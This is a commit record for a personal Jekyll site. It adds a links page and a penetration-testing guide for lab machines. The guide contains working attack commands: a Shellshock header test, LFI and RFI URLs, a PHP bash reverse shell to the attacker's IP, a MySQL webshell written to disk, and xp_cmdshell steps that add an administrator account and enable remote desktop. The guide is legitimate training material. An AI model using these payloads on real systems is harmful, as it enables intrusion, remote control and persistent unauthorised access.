

Before and after one commit to tdmathison/tdmathison.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the whole page at 93% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 965 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Adding guide plus external links page

````diff
--- a/_data/navigation.yml
+++ b/_data/navigation.yml
@@ -3,8 +3,8 @@
 - title: Blog
   url: /blog/
 
-- title: Cheat Sheets
-  url: /cheat_sheets/
+- title: Guides & Docs
+  url: /guides_docs/
 
 - title: CTF
   url: /ctf
--- a/_pages/cheat_sheets.md
+++ b/_pages/guides_docs.md
@@ -1,13 +1,13 @@
 ---
 layout: page
-title: Cheat Sheets
-excerpt: "An archive of reference material sorted by date."
+title: Guides & Docs
+excerpt: "An archive of reference material."
 search_omit: true
-permalink: /cheat_sheets/
+permalink: /guides_docs/
 ---
 
 <ul class="post-list">
-{% for post in site.categories.cheat_sheets %}
+{% for post in site.categories.guides_docs %}
   <li><article><a href="{{ site.url }}{{ post.url }}">{{ post.title }} <span class="entry-date"><time datetime="{{ post.date | date_to_xmlschema }}">{{ post.date | date: "%B %d, %Y" }}</time></span>{% if post.excerpt %} <span class="excerpt">{{ post.excerpt | remove: '\[ ... \]' | remove: '\( ... \)' | markdownify | strip_html | strip_newlines | escape_once }}</span>{% endif %}</a></article></li>
 {% endfor %}
 </ul>
--- /dev/null
+++ b/_posts/guides_docs/2017-07-17-External-Links.md
@@ -0,0 +1,47 @@
+---
+layout: post
+title: "External Links"
+categories: guides_docs
+excerpt: Collection of sites and links I have found useful
+comments: false
+share: true
+tags: [links, hacking]
+image:
+  feature:
+date: 2017-07-17
+---
+# The following is a list of sites and links that I have found useful
+## Linux Privilege Escalation
+* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)<br />
+* [Rebootuser Linux Enumeration & Priv Esc](https://www.rebootuser.com/?p=1623)
+* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)<br />
+* [LinEnum](https://github.com/rebootuser/LinEnum)
+
+## Windows Privilege Escalation
+* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)<br />
+* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)<br />
+* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)<br />
+
+## Exploit & Vulnerability Databases
+* [Exploit-DB](https://www.exploit-db.com/)<br />
+* [CVE - Common Vulnerabilities and Exposures](https://cve.mitre.org/find/index.html)<br />
+* [CVE Details](http://www.cvedetails.com/)<br />
+* [Rapid7 Vulnerability & Exploit Database](https://www.rapid7.com/db/)<br />
+* [Exploit Alert](http://www.exploitalert.com/)<br />
+* [NVD - National Vulnerability Database](https://nvd.nist.gov/)
+
+## Cheat Sheets
+* [slyth11907](https://github.com/slyth11907/Cheatsheets)<br />
+* [IPv6 Cheat Sheet](http://www.roesen.org/files/ipv6_cheat_sheet.pdf)<br />
+* [SANS Metasploit Cheat Sheet](https://blogs.sans.org/pen-testing/files/2017/02/MetasploitCheatsheet2.0.pdf)
+
+## Websites of interest
+* [Exploit-Monday](http://www.exploit-monday.com/) - General how-to articles on attacks and news<br />
+* [Corelan Team](https://www.corelan.be/index.php/articles/) - Tools, Tutorials, Scripts, and more<br />
+* [ROOM362](https://room362.com/) - Infosec blogger<br />
+* [g0tmi1k](https://blog.g0tmi1k.com/) - Infosec blogger/hacker<br />
+* [HashKiller](https://hashkiller.co.uk/ntlm-decrypter.aspx) - Crack hashes<br />
+* [CrackStation](https://crackstation.net/) - Crack hashes<br />
+* [NetSec](https://netsec.ws/) - Misc network security tips and tricks<br />
+* [Offset-DB](http://offset-db.com/) - Known JMP ESP offsets for different versions of Windows<br />
+* [Kernel-Exploits](https://github.com/lucyoa/kernel-exploits) - Search for kernel exploits by version number (recently moved to a github account)<br />
--- /dev/null
+++ b/_posts/guides_docs/2017-07-17-Penetration-Testing-Process.md
@@ -0,0 +1,337 @@
+---
+layout: post
+title: "Penetration Testing Process"
+categories: guides_docs
+excerpt: A general strategy guideline for pentesting
+comments: false
+share: true
+tags: [hacking, pentest, guide]
+image:
+  feature:
+date: 2017-07-17
+---
+The following is a general guideline for how I would start to attack a machine.  I broke it down into enumeration, doing research on what I found, exploitation (either getting root or a low privilege), then attempting low-priv escalation.
+
+> NOTE: These are generic guidelines where I have left out anything that is related to Offensive Security's lab. Still, the following may be helpful if you're not sure where to start or what to start using to make some progress. Hope it's helpful for somebody.
+
+# Enumeration
+---
+## Network Enumeration
+Network Port Scan - Utilize OneTwoPunch or NMAP to identify any running services on the remote system. Both will default to the 1,000 most popular ports. If you don't find anything, try a full scan of all 65535 ports.
+
+Create a text file with the IP to be scanned:
+``` bash
+root@kali:~# echo 192.168.1.100 > target.txt
+```
+
+Run onetwopunch.sh against the target to identify open TCP and UDP ports:
+~/onetwopunch.sh -t target.txt -i eth0  (Runs the scan on eth0 against the targets TCP ports.)
+~/onetwopunch.sh -t target.txt -i eth0 -p udp -n -A (Runs the scan on eth0 against the UDP ports and executes the -A flag when running NMAP.)
+~/onetwopunch.sh -t target.txt -i eth0 -n "-A -sV" (Runs the scan with both the -A and -sV flags set for nmap.)
+
+### Wireshark
+Wireshark is a network sniffer that collects network traffic and breaks it out into a human readable format. It is very good at showing communications between systems and provides insight into what a system is sending. It can be used to identify windows traffic, sniff for passwords, look for hidden shares and to listen for responses to exploits you are executing over the network. Sometimes an exploit is trying to do something different than you think and it can be helpful to see all of the network traffic to clearly see what communications are going on between your system and the target's. I find it helpful to have Wireshark running at all times during a pen test so I can review the packets as needed.
+
+### Port Knocking
+Something to be aware of is that some systems have ports that will only become open after a port knocking sequence. This is something that you may be clued into for a system (particularly for CTF machines) but this is also a legitimate technique to hide ports in production systems as well. If you have an idea of what three ports may unlock other ports you can use the following nmap command to initiate the sequence. NOTE: After running this you should perform a full port scan again to see if any ports opened up (they can be odd ports so a top-ports scan is not advised).
+
+Port knocking with nmap: knocks ports 1, 2, 3
+``` bash
+root@kali:~# nmap 10.10.1.104 -Pn -sS -p 1-3
+root@kali:~# nmap 10.10.1.104 -p-
+```
+
+An additional tool that I use most often for port knocking is knock-knock which is a python script that can be found below.
+```
+https://github.com/pan0pt1c0n/knock-knock
+```
+
+## DNS Enumeration
+Enumeration of the host names used by systems can help to define and identify the types of servers on a corporate network. If zone transfers are not properly secured, you can pull the entire list of servers by IP and hostname greatly improving the enumeration of a network.
+
+The 'host' command is used to query DNS from linux.
+``` bash
+root@kali:~# host -l <domain-name-here> (request a zone transfer from the <domain-name-here> domain)
+```
+
+## Web Enumeration
+Use tools to test for vulnerabilities on found web ports. Tools such as nikto, curl, gobuster, dirbuster, and burpsuite can all be used to enumerate any web server vulnerabilities, running software such as PHP, perl, and python, unlinked directories that can be accessed directly and any files within them, documents such as readme that will provide version information etc.
+
+### Nikto
+Nikto will crawl the webserver looking for known directories and testing for vulnerable settings and software. It can take quite some time but will provide a good idea of places to start testing.
+``` bash
+root@kali:~# nikto -host 192.168.1.100
+```
+
+### Gobuster and Dirbuster
+Gobuster and dirbuster are directory and file enumeration tools that use a list of file/directory names to brute force test whether they exist on a target system. Both can be used with BurpSuite as their proxy so that the content tested is collected and easily reviewed and tested against. I would recommend always using BurpSuite as the proxy for these tools. Gobuster will be explained here but dirbuster is very similar. Gobuster is better at pinpoint testing against each directory where dirbuster can be used to try to run as many different combinations as possible. I find gobuster more methodical.
+
+Run gobuster against a directory with a provided wordlist, found in the Kali Linux installation and use the local BurpSuite application as a web proxy:
+``` bash
+root@kali:~# gobuster -u http://192.168.1.100/ -w /usr/share/seclists/Discovery/Web_Content/common.txt -p http://127.0.0.1:8080
+```
+
+### Curl
+Curl is a command line tool to query web servers and other network ports. It is very useful for identifying versions through banner grabs (such as with FTP) as well as parsing web pages into a text readable and command line tool manipulable format. It can also be used to automate attacks that use a URL insertion to simplify actions and make them more repeatable.
+
+Look at the Page Header and What is being Sent:
+``` bash
+root@kali:~# curl -v http://192.168.1.100/cgi-bin/admin.cgi -s >/dev/null
+```
+
+Test is you can execute a bash script from a header field:
+``` bash
+root@kali:~# curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; uname -a; echo zzzz;'"  http://192.168.1.100/cgi-bin/admin.cgi
+```
+
+Query a webpage and output it to HTML2Text:
+``` bash
+root@kali:~# curl -vk https://192.168.1.100 | html2text
+```
+
+Enumerate HTTP methods with curl:
+``` bash
+root@kali:~# curl -vX OPTIONS 192.168.1.100/test
+```
+
+Quick test with curl of PUT option:
+``` bash
+root@kali:~# curl -vX PUT -d "$(cat test.txt)" 192.168.1.100/test/test.txt
+```
+
+### LFI/RFI Discovery
+You can potentially detect if there are possible LFI's or RFI's via the "fimap" python script.
+``` bash
+root@kali:~# fimap.py -u 'http://192.168.1.100/test.php?file=bang&id=23'
+```
+
+## WordPress Enumeration
+WordPress is commonly used for website presentation through themes. It's multitude of plugins offer myriad avenues of potential vulnerabilities. Wpscan is a great tool to identify them.
+
+### wpscan
+Wpscan identifies the WordPress version and plugins installed and compares them against a list of known vulnerabilities which it lists out. It also provides the name of the current theme.
+
+Check WordPress and its plugins for vulnerabilities:
+``` bash
+root@kali:~# wpscan --url 192.168.1.100 --enumerate p
+```
+
+## Windows and Samba Enumeration
+Enumeration of windows and samba systems can provide lists of running services, known users, file shares, open network ports and more. If UDP port 135/137 are available, you are likely able to enumerate some items on the target.
+
+### Enum4Linux
+Enum4Linux (e4l) is a perl program that wraps several Samba tools into one. It uses smbclient, rpclient, net and nmblookup to pull as much information from the target as possible.
+
+Run all checks against the target:
+``` bash
+root@kali:~# enum4linux 192.168.1.100
+```
+
+### SMB Client
+SMB Client is a Samba tool used for connecting to remote systems. It can be used to enumerate shares and to connect to them. It is used by e4l to do this very thing. If you find a share you wish to connect with however, you will need to use smbclient directly.
+
+List the network shares on the target:
+``` bash
+root@kali:~# root@kali:~# smbclient -L 192.168.1.100
+```
+
+Connect to the wwwroot share:
+``` bash
+root@kali:~# smbclient \\\\192.168.1.100\\wwwroot
+```
+
+## SNMP Enumeration
+SNMP tools provide information such as running processes, devices installed, memory information, user accounts, and much more. If SNMP is running it can greatly improve the amount of information known about a system. Snmp-check and snmpwalk are tools that can collect this information.
+
+### snmp-check
+Snmp-check gives a great human readable report on the SNMP information available.
+
+Enumarate the SNMP information on target:
+``` bash
+root@kali:~# snmp-check 192.168.1.100
+```
+
+### snmpwalk
+Snmpwalk is a less visually friendly command that can enumerate SNMP available information. It can be used to query specific SNMP strings however and is handy in that regard.
+
+Enumerate SNMP information on target:
+``` bash
+root@kali:~# snmpwalk -c public -v1 192.168.1.100
+```
+
+## Miscellaneous Enumeration
+Some tools can be used to query ports and services in different ways in order to glean more information from them. Netcat and nmap are both capable of running against targets to pull out banners and other information in order to identify the application and its version.
+
+### netcat (nc)
+Netcat is the swiss army tool of network communication. It can be used to setup listeners, connect to ports, transfer files, initiate remote command lines and more. For enumeration, it is often used to connect to an open port and pull any information it receives, often from the banner.
+
+Query a web server on port 9000:
+``` bash
+root@kali:~# nc 192.168.1.100 9000
+```
+
+### nmap
+Nmap is the king of network scanners and has many different functions it can perform including running scripts and shells. It is very good at enumerating ports and is used by the OneTwoPunch (12p) script mentioned above.
+
+Scan the top 1000 TCP ports and then attempt to determine the applications and versions running on open ports:
+``` bash
+root@kali:~# nmap 192.168.1.100 -A
+```
+
+### HTML Source
+I try to view the page source for most home pages and custom web pages looking for comments or version information. It is good practice to check source all the time to help enumerate the website. You can also find hidden form fields and other information as well that can help you to understand how the site operates.
+
+---
+# Research
+## Vulnerability Research Tools
+### Searchsploit
+Searchsploit is a command line tool that checks the exploit-db database for known vulnerabilities with exploits. It is downloaded to the local system so all of the exploits are available. It can be updated regularly to ensure you have the latest exploits from the exploit-db.com database.
+
+Search for a known exploit for vsftpd.
+``` bash
+root@kali:~# searchsploit vsftpd
+```
+
+### Web
+### Google
+This is pretty obvious but worth mentioning, Google will likely bring up the following sites that are explained when searching for exploits but it's also good to remember that you can refine its searches and it can be used to find weird looking bits of code etc. to help identify what app version you are seeing or to better enumerate what is going on with the target system. Don't be afraid to search on even the most benign looking bit of text as it could be very specific to a certain application.
+
+### CVEdetails.com
+This site provides a list of known vulnerabilities and exploits that can be refined as desired. It shows a score relating to the risk of the item and can be handy in a quick review of vulnerabilities for an application. It can also provide details on what the vuln is and what is needed to exploit it.
+
+### Exploit-db.com
+This is the web site that provides the same information that searchsploit provides, plus things like raw code for the exploit as well as the ability to download the vulnerable version of the software, which can be very helpful in testing. The website requires a captcha to search from it's main screen but if you search from Google and use site:exploit-db.com you can get to most pages directly. This is one of my favorites.
+
+### Securityfocus.com
+This site is kind of a general mixture of CVE and ExDB. It has writeups on vulns and links to exploits. I like it primarily because it may have additional exploits that are not found or easily identified by the others. Specifically I've had luck finding a python version of an exploit that was only in ruby or C. This makes it much easier to run.
+
+---
+# Exploitation
+## SQL Injection
+SQL Injection is the usage of SQL specific commands and special characters in input fields in order to break the current SQL statement and to insert your own desired statement. It is used in many different ways and changes with the underlying DB OS.
+
+A useful cheat sheet for injections can be found here: [https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
+
+## Local File Inclusion
+Local File Inclusion or LFI is the calling of a file on the target system in an unexpected manner. It is often done through URL manipulation such as directory traversal.
+
+Example LFI Attack
+```
+https://192.168.1.100/index.php?page=../../../../../../../etc/passwd
+```
+
+## Remote File Inclusion
+Remote File Inclusion or RFI is the calling of a remote file, usually from your local system, from the target system. This is often done through URL manipulation.
+
+Example RFI Attack
+```
+https://192.168.1.100/index.php?page=http://192.168.1.101/shell.php%00 (where 192.168.1.101 is your machine IP)
+```
+
+This url calls a php file from the remote server, in this instance my attacking box, and executes the file locally to the target system. The %00 terminates the PHP.
+
+The code inside of the file would look something like this:
+```
+<?php print shell_exec("/bin/bash -i >& /dev/tcp/192.168.1.101/443 0>&1");?>
+```
+
+It assigns a bash shell to a listener and then initiates a call to my local system on port 443. Running a netcat listener on 443 will accept the reverse shell and I will have a shell with the privileges of the user the web server is running as.
+
+## Password Attacks
+There are many forms of password attacks, hash cracking, password guessing, hash passing, it is important to understand how authentication systems operate to assist in circumventing or compromising them.
+
+## Hash Cracking
+There are several websites that have publicly available rainbow tables that will take a provided hash and compare. They can be very helpful in finding basic passwords quickly.
+
+Two examples:<br />
+[https://crackstation.net](https://crackstation.net)<br />
+[https://hashkiller.co.uk](https://hashkiller.co.uk)
+
+### Johnny or John the Ripper
+Johnny is a password cracking program. It is a graphical version of John the Ripper. It can take a wordlist, hash it, then compare it against a list of hashes provided. It can take in files in /etc/passwd /etc/shadow format and identify which hash algorithm is in use. It is very powerful.
+
+### Password Guessing
+One of the quickest ways to compromise a system is to brute force a password. It is also important to try well known combinations, admin:admin, admin:password, and so on. It's also very helpful to find out what the default username and password is for an application to see if it has been changed or removed.
+
+Brute force tools like Hydra are great for iterating through user and password lists against HTML, SSH, FTP, authentication to start. The command line can be tricky, especially with web authentication, but it is good to know how to use it.
+
+### Custom Password Lists
+Use Cewl and John the Ripper to create custom password lists from web sites and other input.
+
+## Remote Code Execution
+Remote code execution or RCE is when an attacker is able to run code on a remote system. It can be done through buffer overflow exploits, misconfigured web servers, badly coded applications, and is a very strong method of compromise when it exists.
+
+### Shellshock or Bashbug
+Shellshock takes advantage of an environment variable being passed from an application to the bash shell. Using a specific string to start the variable, () { :; }; , it stops being interpreted as a string and instead as a bash command. This allows the attacker to string along shell commands to be executed by the program.
+
+https://blog.cloudflare.com/inside-shellshock/
+
+## Anonymous FTP
+Anonymous FTP can lead to different attack avenues. If the system has an additional vulnerability in FTP that requires being authenticated, such as a directory traversal attack, then it makes it that much simpler. If the FTP server is configured to allow access to certain directories, for instance the web root, you can upload bind and reverse shells to the web server then execute them through the browser.
+
+## SMB Shares
+SMB Shares that are public can be great avenues for attack. If the share is the web root or part of it, you can upload bind and reverse shells to the system to call from your browser. Tools like enum4linux can identify these shares and smbclient can be used to connect to it directly.
+
+---
+# Privilege Escalation
+Operating systems have many different vectors for privilege escalation. Some are simple, some are complex, it is worth taking the time to understand how each works so you know what to look for.
+
+## Windows Escalation
+* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)<br />
+* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)<br />
+* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)<br />
+
+## Linux Escalation
+* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)<br />
+* [Rebootuser Linux Enumeration & Priv Esc](https://www.rebootuser.com/?p=1623)
+* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)<br />
+* [LinEnum](https://github.com/rebootuser/LinEnum)
+
+## Database Attacks
+If you are able to gain access to a database, there are several ways you can use it to your advantage:
+
+### MySQL Example<br />
+If you can connect to a remote MySQL server and get command line access via:
+```
+root@kali:~# mysql -u root -p -h 192.168.1.100
+```
+
+You may be able to output a file to disk via the MySQL command line (you can put the base64 payload (from msfvenom, for example) into a select):
+```
+mysql> select "<?PHP eval(base64_decode(<base64-value-here>)); ?>" INTO OUTFILE "../../www/html/shell.php";
+Query OK, 1 row affected (0.00 sec)
+```
+
+### Microsoft SQL Server Example<br />
+In the event of Microsoft SQL Server you may want to check whether you can use xp_cmdshell to execute commands. The following is just one example of how you may be able to create a user and enable remote desktop on a victim machine.
+
+Connect to server via sqsh (need to setup configuration in ~/.sqshrc first)
+``` bash
+root@kali:~# sqsh -S 192.168.1.100
+```
+
+Attempt to enable it
+``` sql
+exec sp_configure 'show advanced options', 1
+go
+reconfigure
+go
+exec sp_configure 'xp_cmdshell', 1
+go
+reconfigure
+go
+```
+
+Try to add user
+``` sql
+xp_cmdshell 'net user testuser password /add'
+go
+xp_cmdshell 'net localgroup Administrators testuser /add'
+go
+```
+
+Try to enable remote desktop
+``` sql
+xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
+go
+```
--- a/_sass/_base.scss
+++ b/_sass/_base.scss
@@ -62,23 +62,23 @@ h1 {
 }
 
 h2 {
-	@include font-size(32);
+	@include font-size(28);
 }
 
 h3 {
-	@include font-size(28);
+	@include font-size(20);
 }
 
 h4 {
-	@include font-size(24);
+	@include font-size(16);
 }
 
 h5 {
-	@include font-size(20);
+	@include font-size(12);
 }
 
 h6 {
-	@include font-size(18);
+	@include font-size(10);
 }
 
 /* underlined text */
````
